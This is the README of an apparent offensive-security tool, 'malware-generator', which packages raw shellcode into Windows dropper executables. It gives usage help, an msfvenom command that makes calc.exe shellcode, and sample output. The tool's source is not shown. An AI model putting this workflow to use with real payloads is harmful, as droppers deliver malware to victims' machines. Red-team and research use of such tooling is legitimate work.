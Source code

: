# malware-generator

Simple project to generate 32bit or 64bit droppers

# Usage

```
$ ./generator.py -h
usage: generator.py [-h] [-a ARCH] binaryPath

Simple raw shellcode Dropper Generator

positional arguments:
  binaryPath            File containing raw shellcode

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  Shellcode Architecture (1=x64, 2=x86) (default=x64)
```

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it
```
$ ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.
